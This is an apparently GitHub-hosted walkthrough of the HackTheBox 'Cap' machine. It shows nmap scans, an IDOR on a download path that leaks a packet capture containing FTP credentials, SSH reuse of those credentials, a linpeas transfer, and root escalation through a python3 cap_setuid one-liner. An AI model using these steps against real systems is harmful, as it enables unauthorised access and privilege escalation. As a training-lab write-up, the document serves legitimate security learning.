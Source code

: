 # Cap HackTheBox WalkThrough

![info card](../../img/Cap/Cap.png)

We start the machine by scanning all TCP ports.

```
nmap -sS -p- -Pn -n --min-rate 5000 10.129.129.34


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:53 CEST
Nmap scan report for 10.129.129.34
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.05 seconds
```

The open ports are `21`, `22`, and `80`, so we’ll check what services are running on them.

```
nmap -sVC -p 21,22,80 10.129.129.34 --min-rate 5000 -oN services.nmap


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-20 14:57 CEST
Nmap scan report for 10.129.129.34
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 20 Oct 2024 12:57:20 GMT
...More irrelevant content...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.10 seconds
```

Since we don’t have credentials to connect via `ftp` or `ssh`, we’ll check the website running on port `80`.

![dashboard](../../img/Cap/dashboard.png)

We see a dashboard that looks like an IDS (Intrusion Detection System).

In `Security Snapshot...`, there’s a page where we can download packet captures, which we can open with Wireshark.

![capture](../../img/Cap/capture.png)

The capture downloaded by clicking "download" is empty, so there’s not much we can do with it.

After capturing the `download` request with Burp Suite, we notice it is a GET request to `/download/[number]`. Let’s try changing that number to see if we get anything different.

![burpusite](../../img/Cap/burpsuite.png)

Changing the target path number to `0` returns a significantly larger file, indicating it’s not empty. We’ll download it and inspect it in Wireshark.

![burpsuite0](../../img/Cap/burpsuite0.png)

Since the machine had an open `FTP` service on port `21`, we’ll filter for "ftp" in Wireshark to look for any authentication packets where we can steal some credentials.

![wireshark ftp](../../img/Cap/wireshark-ftp.png)

We can see that a user `nathan` authenticated with the password `Buck3tH4TF0RM3!`. Since `FTP` and `SSH` often use the credentials of the users in the system, let’s try authenticating via ssh with the credentials we just found.

```
ssh nathan@10.129.129.34
nathan@10.129.129.34's password: Buck3tH4TF0RM3!
```

Authentication is successful, and we can retrieve the user flag.

```
cd
cat user.txt
```

To work more comfortably, we’ll set the `TERM` environment variable to `xterm`.

```
export TERM=xterm
```

For privileges escalation, we’ll run `linpeas`, which scans the system for potential privilege escalation paths.

We’ll download the script to our attack machine and start an HTTP service with Python to transfer it to the victim machine.

```
wget https://github.com/peass-ng/PEASS-ng/releases/download/20241011-2e37ba11/linpeas.sh
python3 -m http.server 80
```

Then download it on the victim machine.

```
wget 10.10.14.43/linpeas.sh
```

Make it executable and run it.

```
chmod +x linpeas.sh
./linpeas.sh


...more linpeas output...

Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...more linpeas output...
```

Among other things, it shows that Python has the `setuid` capability, which works similarly to the `setuid` bit.

---

**What is a capability?**

*In Linux, capabilities are a way to split root privileges for processes into smaller, specific units.*

*You can learn more about capabilities and how to exploit them [here](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).*

---

To exploit this, we’ll change the `uid` to `0` (root’s uid) and execute any command as `root`. This can only be done if we have the `SUID` bit or a similar capability.

```
python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

It worked; now we’re `root`, and we can retrieve the root flag.

```
cd /root
cat root.txt
```

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.